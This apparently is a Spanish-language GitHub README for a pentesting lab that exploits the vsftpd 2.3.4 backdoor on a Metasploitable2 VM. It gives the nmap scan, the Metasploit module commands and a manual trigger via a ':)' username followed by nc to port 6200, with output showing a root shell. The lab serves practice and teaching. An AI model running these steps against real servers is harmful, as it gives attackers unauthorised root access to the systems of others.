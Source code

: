 # 🎯 Laboratorio: Explotación de vsftpd 2.3.4 en Metasploitable2.

> Este ejercicio simula un escenario real de pentesting donde se identifica y explota un servicio FTP vulnerable para obtener acceso al sistema como `root`.
> Nivel de dificultad: Fácil.

---

## 🔍 1.Reconocimiento inicial con Nmap.

```bash
nmap -sS -sV -p- 192.168.56.102
```

### Resultado:

PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 2.3.4

✅ Observamos que el servicio FTP usa la versión vsftpd 2.3.4, la cual es conocida por tener una backdoor deliberada.

## 🧠 2. Análisis de vulnerabilidad.

La versión vsftpd 2.3.4 contiene una puerta trasera activada cuando se incluye un :) como parte del nombre de usuario.

Referencias:

- [CVE]:(https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523).
- Vector: FTP login → trigger backdoor shell.

## 💥 3. Explotación automática con Metasploit.

En este punto, tenemos dos vías para poder explotar el servicio vsftpd: manualmente o de manera automática con Metasploit.

1. Iniciar Metasploit. Se lanza la consola de Metasploit Framework, una herramienta poderosa para realizar pruebas de penetración. Este entorno permite acceder a una amplia gama de exploits, payloads y módulos auxiliares.

```bash
msfconsole
```

2. Configurar y ejecutar el exploit vsftpd_234_backdoor.  Se selecciona un exploit dirigido a una versión vulnerable del servidor FTP vsftpd (2.3.4), que contiene una puerta trasera. Se configuran los parámetros del objetivo (RHOST y RPORT) y se ejecuta el ataque para obtener acceso no autorizado al sistema.

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.102
set RPORT 21
exploit
```
### Resultado:

[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - Backdoor service has been spawned, handling...
[*] Command shell session 1 opened

Shell obtenida, ejecutamos comandos como whoami e id para ver nuestro usuario actual en el sistema.

- whoami: root
- id: uid=0(root) gid=0(root)

## 🧠 4. Exploit manual

```bash
telnet 192.168.56.102 21
```

```
Trying 192.168.56.102...
Connected to 192.168.56.102.
220 (vsFTPd 2.3.4)
USER test:)
```

Al usar test:) se activa el backdoor que escucha en el puerto 6200/tcp.

Nos conectamos y obtenemos la shell con:

```bash
nc 192.168.56.102 6200
```

## 🎯 5. ¡Objetivo conseguido!.

| Objetivo                     | ¿Alcanzado? |
|-----------------------------|-------------|
| Reconocimiento de puertos   | ✅ Sí        |
| Identificación de versiones | ✅ Sí        |
| Uso de exploits públicos    | ✅ Sí        |
| Acceso al sistema           | ✅ Sí        |
| Acceso como root            | ✅ Sí        |
| Documentación del proceso   | ✅ Sí        |
